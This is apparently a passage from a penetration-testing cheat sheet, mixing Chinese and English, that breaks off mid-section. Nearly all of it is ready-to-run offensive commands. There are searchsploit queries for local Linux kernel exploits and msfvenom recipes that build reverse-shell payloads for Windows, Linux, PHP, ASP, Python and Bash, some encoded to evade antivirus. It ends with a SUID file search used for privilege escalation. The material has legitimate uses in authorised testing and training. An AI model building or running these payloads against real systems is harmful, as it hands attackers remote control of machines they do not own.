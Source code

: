 ./searchsploit apache 2.2
./searchsploit "Linux Kernel"

cat files.csv | grep -i linux | grep -i kernel | grep -i local | grep -v dos | uniq | grep 2.6 | egrep "<|<=" | sort -k3
```
MSF Payloads
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> X > system.exe
msfvenom -p php/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 R > exploit.php
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e -a x86 --platform win -f asp -o file.asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e x86/shikata_ga_nai -b "\x00" -a x86 --platform win -f c
```
MSF 生成在 Linux 下反弹的 Meterpreter Shell
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e -f elf -a x86 --platform linux -o shell
```
MSF 生成反弹 Shell (C Shellcode)
```
msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -b "\x00\x0a\x0d" -a x86 --platform win -f c
```
MSF 生成反弹 Python Shell
```
msfvenom -p cmd/unix/reverse_python LHOST=127.0.0.1 LPORT=443 -o shell.py
```
MSF 生成反弹 ASP Shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp -a x86 --platform win -o shell.asp
```
MSF 生成反弹 Bash Shell
```
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -o shell.sh
```
MSF 生成反弹 PHP Shell
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -o shell.php
add <?php at the beginning
perl -i~ -0777pe's/^/<?php \n/' shell.php
```
MSF 生成反弹 Win Shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe -a x86 --platform win -o shell.exe
```
Linux 常用安全命令
```
# 使用 uid 查找对应的程序
find / -uid 0 -perm -4000
